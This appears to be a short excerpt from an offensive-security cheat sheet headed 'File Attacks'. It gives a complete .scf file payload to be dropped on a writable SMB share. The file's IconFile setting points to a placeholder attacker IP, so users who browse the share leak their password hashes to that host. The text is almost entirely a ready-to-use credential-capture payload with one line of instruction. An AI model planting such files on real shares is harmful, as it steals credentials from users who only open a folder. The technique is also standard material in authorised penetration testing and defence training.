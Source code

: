 # File Attacks

With write rights on a SMB share, it is possible to drop a .scf or a .lnk file with the following content to grab some user hashes:

    [Shell]
    Command=2
    IconFile=\<attacker_IP>\share\pentestlab.ico
    [Taskbar]
    Command=ToggleDesktop
